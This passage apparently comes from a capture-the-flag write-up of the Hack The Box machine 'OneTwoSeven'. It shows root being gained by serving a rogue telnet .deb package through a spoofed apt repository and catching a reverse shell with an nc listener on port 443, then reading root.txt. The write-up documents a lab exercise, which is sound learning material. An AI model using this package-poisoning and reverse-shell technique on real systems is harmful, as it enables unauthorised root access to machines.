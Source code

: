 On entering `Y`, there’s a warning:

```

WARNING: The following packages cannot be authenticated!
  telnet
Install these packages without verification? [y/N]

```

On entering `Y` again, there’s another request to my web server requesting the package:

```
127.0.0.1 - - [26/Aug/2019 09:53:07] "GET /devuan/pool/DEBIAN/main/n/netkit-telnet/telnet_0.17-42_amd64.deb HTTP/1.1" 200 -

```

The local screen shows messages:

```

Get:1 http://packages.onetwoseven.htb/devuan ascii/main amd64 telnet amd64 0.17-42 [72.1 kB]
Fetched 72.1 kB in 0s (239 kB/s)
Reading changelogs... Done
debconf: unable to initialize frontend: Dialog
debconf: (Dialog frontend will not work on a dumb terminal, an emacs shell buffer, or without a controlling terminal.)
debconf: falling back to frontend: Readline
(Reading database ... 33940 files and directories currently installed.)
Preparing to unpack .../telnet_0.17-42_amd64.deb ...
Unpacking telnet (0.17-42) over (0.17-41) ...
Setting up telnet (0.17-42) ...

```

It hangs on `Setting up telnet (0.17-42)`.

But I’ve got a shell at my `nc` listener:

```

root@kali# nc -lvnp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.133.
Ncat: Connection from 10.10.10.133:51224.
root@onetwoseven:/# id
uid=0(root) gid=0(root) groups=0(root)

```

From there, I can grab `root.txt`:

```

root@onetwoseven:~# cat root.txt 
2d380a25...

```